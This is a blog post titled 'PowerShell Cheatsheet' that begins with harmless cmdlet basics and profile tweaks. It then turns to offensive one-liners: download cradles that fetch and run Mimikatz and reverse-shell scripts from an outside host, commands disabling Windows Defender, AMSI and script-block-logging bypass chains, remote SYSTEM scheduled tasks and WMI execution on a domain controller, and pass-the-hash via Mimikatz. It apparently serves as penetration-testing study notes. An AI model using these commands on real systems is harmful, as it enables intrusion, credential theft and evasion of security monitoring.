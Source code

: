 ```yaml
---
author:
  name: "Piyush Verma"
date: 2021-10-29
linktitle: PowerShell Cheatsheet
type:
- post
- posts
title: PowerShell Cheatsheet
draft: false
toc: true
images:
tags:
  - PowerShell
weight: 10
---
```


## Commonly used PowerShell (PS) commands
---

Please note that all of the following commands are run from a PowerShell prompt.

Retrieve the PowerShell Version
```powershell
 $PSVersionTable 
 ```

List help about a cmdlet in a readable format:
```powershell 
Get-Help <cmdlet> | more
```

List cmdlets which contain the keyword 'service' in them:
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Name -match "service"}
```
List available commands in the current PS session and their respective details which contain the keyword 'command' in them:
```powershell
Get-Command -CommandType All -ShowCommandInfo | ?{$_.Name -match "command"}
```

Wilcards can be used to match as well. Example:
```powershell
Get-Command -CommandType All | ?{$_.Name -match "serv*"}
```

Count the number of commands in the output: 
```powershell
(Get-Command -CommandType All | ?{$_.Name -match "command"}).count
```

List all cmdlets with PKI as source
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Source -match "PKI"}
```

List all commands in a module by running:
```powershell
Get-Command -Module <module name>
```

## Tweaks
---

When you launch PowerShell session, it opens in the user's home directory by default. This behavior can be modified so that new PS sessions open in your custom directory. Here is how:

```powershell
# Check the value of $PROFILE variable.

PS C:\Windows\system32> $PROFILE
C:\Users\XXXXXXXXX\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1

# Create the .ps1 file returned from the $PROFILE variable

PS C:\Windows\system32> New-Item -Path $PROFILE -Type File -Force

# To set and change the default working directory, open the above 'Microsoft.PowerShell_profile.ps1' in ISE and add the following line with your desired path.

Set-location <Desired Path>
```


## One-Liners
---

### Creating a firewall rule exception in Windows:
```powershell
New-NetFirewallRule -DisplayName 'HTTP-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('80', '443')

New-NetFirewallRule -DisplayName '447-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('447')
```

### Downlaod cradles
```powershell
# Option 1 - Using IEX (compatible with older versions of PS)

powershell iex (New-Object Net.WebClient).DownloadString("http://192.168.X.X/Invoke-MimikatzEX.ps1")

# Option 2 - Using IWR (works on current version of PS)

iwr -UseBasicparsing http://192.168.X.X/Invoke-PowerShellRev.ps1 | iex
```

### Creating a Credential object
```powershell
$SecPassword = ConvertTo-SecureString 'XXXXXXXXXXXX' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
```

### Decode Base64
```powershell
$EncodedText = “VABoA....”
$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))
$DecodedText
```

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```
### Encode Reverse Shell
```powershell
. .\Invoke-Encode.ps1

Invoke-Encode -DataToEncode .\Invoke-PowerShellTcpOneLine.ps1 -OutCommand

# Open a listener (nc) on one end and on another shell use: 

powershell -e <content of encodedcommand.txt>
```

### Reverse shell using a Batch file
```powershell
# Create reverse.bat file

$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://192.168.X.X/Invoke-PowerShellRev8080.ps1''))'
Out-File -Encoding Ascii -InputObject $Contents -FilePath C:\RTL\Tools\reverse8080.bat

# Call reverse.bat file

## Option 1
.rotten.exe * reverse.bat

## Option 2
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:NTLMHASH /run:C:\users\appadmin\desktop\reverse.bat"'
```

### Scheduled tasks
```powershell
schtasks /create /S dc.contoso.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.X.X/Invoke-PowerShellRev8080.ps1''')'"

schtasks /Run /S dc.contoso.local /TN "UserX"
```

### Invoke-WMIMethod - Command Execution (Reverse shell, etc.)
```powershell
Invoke-WmiMethod win32_process -ComputerName dc.contoso.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

### Chain powershell commands to Bypass SBLogging, then AMSIBypass and then get reverse-shell
```powershell
powershell -c "iex (iwr -UseBasicParsing http://192.168.X.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/Invoke-PowerShellTcpEx.ps1)
```

### Check local admin access via Invoke-Command
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName (Get-Content ..\Output\computers.txt) 2>$null
```

### Over pass-the-hash
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:NTLMHASH /run:powershell.exe"'
```
